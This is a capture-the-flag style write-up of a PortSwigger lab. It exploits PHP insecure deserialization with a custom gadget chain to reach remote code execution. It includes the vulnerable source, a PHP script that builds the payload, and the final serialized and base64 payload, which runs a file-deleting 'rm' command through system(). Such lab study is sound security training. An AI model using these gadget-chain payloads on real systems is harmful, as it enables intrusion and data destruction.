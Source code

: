 [Insecure deserialization](../Insecure%20deserialization.md)
# Description

This lab uses a serialization-based session mechanism. By deploying a custom gadget chain, you can exploit its [insecure deserialization](https://portswigger.net/web-security/deserialization) to achieve remote code execution. To solve the lab, delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Enum

In html source code 
```html
<!-- TODO: Refactor once /cgi-bin/libs/CustomTemplate.php is updated -->
```

We can examine the content of file **CustomTemplate.php** using tilda sign `~` (backup of file)

CustomTemplate.php
```php
<?php

class CustomTemplate {
    private $default_desc_type;
    private $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new Description();
        $this->default_desc_type = $desc_type;
        // Carlos thought this is cool, having a function called in two places... What a genius
        $this->build_product();
    }

    public function __sleep() {
        return ["default_desc_type", "desc"];
    }

    public function __wakeup() {
        $this->build_product();
    }

    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}

class Description {
    public $HTML_DESC;
    public $TEXT_DESC;

    public function __construct() {
        // @Carlos, what were you thinking with these descriptions? Please refactor!
        $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
        $this->TEXT_DESC = 'This product is cool in text';
    }
}

class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}
```

now we can try to construct our chain of gadgets

## Creating gadget chain

the most usefull line of code is `call_user_func($this->callback, $name)`, using this function we can execute any function with any parameters we want

example of usage
![](Attachments/Pasted%20image%2020240528040632.png)

So we need to somehow force the code to execute `system('rm /home/carlos/morale.txt')`.

```php
public function __get($name) {
	return call_user_func($this->callback, $name);
}
```
This function is called  when we try to get some attribute in DefaultMap class

```php
$default_map = new DefaultMap();
$default_map->some_attribute;
```

In this example  `__get($name)` $name will equal to "some_attribute". 

We can try to get attribute of DefaultMap in Product class
```php
class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}
```

`$desc` must equal DefaultMap object, and `$default_desc_type` must equal `"rm /home/carlos/morale.txt"`

In CustomTemplate class
```php
public function __wakeup() {
	$this->build_product();
}

private function build_product() {
	$this->product = new Product($this->default_desc_type, $this->desc);
}
```

`__wakeup()` magic method is executed when object is deserialized, 
then `build_product()` is called.
In serialized CustomTemplate class we can assign `$this->default_desc_type, $this->desc` to our mallicious values.

## Final script

```php
<?php

class CustomTemplate {
    public $default_desc_type;
    public $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        // $this->desc = new Description();
        // $this->default_desc_type = $desc_type;
        // Carlos thought this is cool, having a function called in two places... What a genius
        // $this->build_product();
    }

    public function __wakeup() {
        $this->build_product();
    }

    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}

class Description {
    public $HTML_DESC;
    public $TEXT_DESC;

    public function __construct() {
        // @Carlos, what were you thinking with these descriptions? Please refactor!
        $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
        $this->TEXT_DESC = 'This product is cool in text';
    }
}

class DefaultMap {
    public $callback;

    public function __construct($callback='system') {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}


$custom_template = new CustomTemplate();
$custom_template->desc = new DefaultMap();
$custom_template->desc->callback = "system";
$custom_template->default_desc_type = "rm /home/carlos/morale.txt";

 

$serialized = serialize($custom_template);
echo $serialized;
```

![](Attachments/Pasted%20image%2020240528042134.png)

## Warning

In first attempts my payload did't work because of `DefaultMapcallback`

![](Attachments/Pasted%20image%2020240528042243.png)

I think that was suspicious and in my chain.php i changed code in DefaultMap and made `$callback` publicly available and manually assigned `$callback` to "system". That worked

## Final Payload

```php
O:14:"CustomTemplate":3:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:6:"system";}s:7:"product";N;}
```

```
TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjM6e3M6MTc6ImRlZmF1bHRfZGVzY190eXBlIjtzOjI2OiJybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7czo0OiJkZXNjIjtPOjEwOiJEZWZhdWx0TWFwIjoxOntzOjg6ImNhbGxiYWNrIjtzOjY6InN5c3RlbSI7fXM6NzoicHJvZHVjdCI7Tjt9
```
